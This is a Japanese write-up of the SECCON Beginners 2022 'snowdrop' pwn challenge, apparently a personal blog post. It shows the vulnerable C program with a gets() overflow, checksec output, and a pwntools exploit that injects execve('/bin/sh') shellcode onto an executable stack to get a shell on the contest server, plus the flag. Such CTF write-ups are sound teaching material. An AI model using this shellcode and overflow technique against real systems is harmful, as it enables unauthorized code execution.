 # SECCON Beginners 2022 `snowdrop [pwn]` writeup

## 問題
これでもうあの危険なone gadgetは使わせないよ!

`nc snowdrop.quals.beginners.seccon.jp 9002`

実行ファイルとソースコードが配布される。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUFF_SIZE 0x10

void show_stack(void *);

int main() {
    char buf[BUFF_SIZE] = {0};
    show_stack(buf);
    puts("You can earn points by submitting the contents of flag.txt");
    puts("Did you understand?") ;
    gets(buf);
    puts("bye!");
    show_stack(buf);
}

void show_stack(void *ptr) {
    puts("stack dump...");
    printf("\n%-8s|%-20s\n", "[Index]", "[Value]");
    puts("========+===================");
    for (int i = 0; i < 8; i++) {
        unsigned long *p = &((unsigned long*)ptr)[i];
        printf(" %06d | 0x%016lx ", i, *p);
        if (p == ptr)
            printf(" <- buf");
        if ((unsigned long)p == (unsigned long)(ptr + BUFF_SIZE))
            printf(" <- saved rbp");
        if ((unsigned long)p == (unsigned long)(ptr + BUFF_SIZE + 0x8))
            printf(" <- saved ret addr");
        puts("");
    }
    puts("finish");
}

__attribute__((constructor))
void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    alarm(60);
}
```

## 解法
raindropと設計は似ている。
ただし今回はgets関数で標準入力を受け取っている。
さっきみたいに入力バイト数の制限に悩むことはなさそう。やったぜ。

しかしセキュリティ機構を見てみると

```
[*] '/home/caffeine/ctf/seccon4b22/pwn/snowdrop/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

こっちはcanaryがある。
ROP -> libc leak -> one gadgetの流れは難しそうか。
だがよく見てみると、代わりにNX disabledである。
スタックが読み書き実行可能になっているので、エクスプロイトコードを流し込んで仕留めれば良し。

## Exploit
シェルコードを流し込んで、リターンアドレスをシェルコードの先頭アドレスで上書きするだけ。
問題はどうやってシェルコードを用意するか。
問題設定に合わせてアセンブラを自分で書くのもいいですが、今回は特殊な設定もないのでチームメイトのEBebさんが過去にwriteupに残したシェルコードをお借りしました。

お借りしたのが[こちら](https://github.com/wani-hackase/wanictf2021-writeup/tree/main/pwn/tarinai)。Stack pivotに繋がるleave ; retの勉強にもなるので必見。

Exploit codeは以下の通り。

```py
from pwn import *
import sys

buffersize = 0x10
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"

# io = process("./chall")
io = remote("snowdrop.quals.beginners.seccon.jp", 9002)

ret = io.readuntil("000006 | ")
print(ret.decode(), end="")

ret = io.readuntil("\n")
print(ret.decode(), end="")
addr_buffer = int(ret.decode(), 16) - 0x268
addr_shellcode = addr_buffer + 0x20

s = b'A' * buffersize
s += b'A' * 0x08 # for saved rbp
s += p64(addr_shellcode)
s += shellcode
io.sendline(s)

ret = io.readuntil("finish")
print(ret.decode())

io.interactive()
```

FLAG: `ctf4b{h1ghw4y_t0_5h3ll}`
